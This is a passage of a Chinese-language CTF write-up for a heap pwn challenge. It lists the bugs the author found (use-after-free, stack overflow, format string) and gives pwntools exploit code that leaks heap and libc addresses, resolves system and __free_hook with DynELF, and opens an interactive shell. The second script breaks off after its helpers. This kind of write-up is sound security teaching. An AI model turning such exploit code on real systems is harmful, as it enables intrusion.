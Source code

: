 ```python
show(0)
p.readuntil("ti: ")
heap=u64(p.readline()[:-1]+'\0\0')-0x6d0
log.warning(hex(heap))
for x in range(6):
	free(0)
show(0)
p.readuntil("ti: ")
base=u64(p.readline()[:-1]+'\0\0')
log.warning(hex(base))
add(2,0x88,p64(0)+"AAAABBBB",0,0)
free(1)
add(3,0x28,p64(3)*2+p64(0x100)+p64(-478*8+base))
pie=u64(leak(base-478*8)[:8].ljust(8,'\x00'))
pie=(pie&0xfffffffffffff000)-0x202000
d=DynELF(leak,pie)
sys=d.lookup("system",'libc')
hook=d.lookup("__free_hook",'libc')
log.warning(hex(hook))
#log.warning(hex(base-0x70-libc.sym['__malloc_hook']+libc.sym['__free_hook']))
log.warning(hex(sys))
#log.warning(hex(base-0x70-libc.sym['__malloc_hook']+libc.sym['system']))

#print addr
#log.warning(hex(addr))
#log.warning(hex(u64(leak()[:8].ljust(8,'\x00'))))
#for x in range(-0x300,0x1000):
#	print hex(u64(leak(base+x*8)[:8].ljust(8,'\x00')))+":idx="+str(x)
p.interactive()
```
感觉平时感觉很没用的东西有时候会特别有用... 就像刚学`shellcode`的时候和刚学`DynELF`的时候

# ATK (获得binary后)
题目出的挺好的,我发现的明显的漏洞有: 
1. main函数中的2个溢出因为本题没有正常推出的途径所以我感觉这里应该不足以单独构成完整exp.
2. sell 函数中的UAF.
3. Modify函数中的栈溢出.
4. Modify函数中的格式化字符串.
5. Modify函数中size比较的类型设置错误不过我目前是没有办法利用因为后面有`memcpy`...

其中1/5 我暂时没有利用的想法...这里把另外三个的exp放一下。

UAF:
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(idx,size,c='A',tp=1,color=1):
	cmd(1)
	cmd(tp)
	cmd(color)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
	p.sendlineafter(": ",str(idx))
def free(idx):
	cmd(4)
	p.sendlineafter(": ",str(idx))
def edit(idx,size,c='A'):
	cmd(2)
	p.sendlineafter(": ",str(idx))
	cmd(2)
	p.sendlineafter(": ",str(size))
	p.sendafter(": ",c)
```